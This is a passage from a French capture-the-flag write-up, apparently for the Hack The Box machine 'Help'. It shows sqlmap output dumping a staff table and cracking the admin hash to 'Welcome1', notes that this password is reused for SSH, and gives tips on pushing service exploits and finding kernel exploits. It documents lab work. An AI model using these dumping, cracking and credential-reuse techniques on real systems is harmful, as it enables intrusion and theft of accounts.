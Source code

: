 ```bash
[14:42:23] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[14:42:23] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:42:23] [INFO] starting 12 processes 
[14:42:24] [INFO] cracked password 'Welcome1' for user 'admin'                                                                                                                                                    
Database: support                                                                                                                                                                                                 
Table: staff
[1 entry]
+----+--------------------+------------+--------+---------+----------+---------------+-----------------------------------------------------+----------+----------+--------------------------------+--------------------+------------+------------------------+
| id | email              | login      | avatar | admin   | status   | fullname      | password                                            | timezone | username | signature                      | department         | last_login | newticket_notification |
+----+--------------------+------------+--------+---------+----------+---------------+-----------------------------------------------------+----------+----------+--------------------------------+--------------------+------------+------------------------+
| 1  | support@mysite.com | 1547216217 | NULL   | 1       | Enable   | Administrator | d318f44739dced66793b1a603028133a76ae680e (Welcome1) | <blank>  | admin    | Best regards,\r\nAdministrator | a:1:{i:0;s:1:"1";} | 1543429746 | 0                      |
+----+--------------------+------------+--------+---------+----------+---------------+-----------------------------------------------------+----------+----------+--------------------------------+--------------------+------------+------------------------+

[14:42:30] [INFO] table 'support.staff' dumped to CSV file '/root/.local/share/sqlmap/output/help.htb/dump/support/staff.csv'
[14:42:30] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/help.htb'

[*] ending @ 14:42:30 /2025-08-27/
```
Après l'utilisation de SQLMap, nous n'avons pas eu besoin de faire une attaque par dictionnaire sur le hachage. En effet, SQLmap s'en est chargé et a trouvé le mot de passe : 
"d318f44739dced66793b1a603028133a76ae680e" --> `Welcome1`.

Il ne reste plus qu'à se connecter en SSH avec l'utilisateur **help** et ce mot de passe.

## Tips
- Quand on trouve une version d'un service exploitable, vraiment pousser au maximum. Tenter plusieurs fois l'exploitation et avec plusieurs code différents.
- Vérifier rapidement le Kernel, en commençant par la date de sa compilation. Faire une recherche de la version rapidement sur internet, ça coûte rien et ici c'était bien la solution. Linpeas ne surlignera pas la version du Kernel.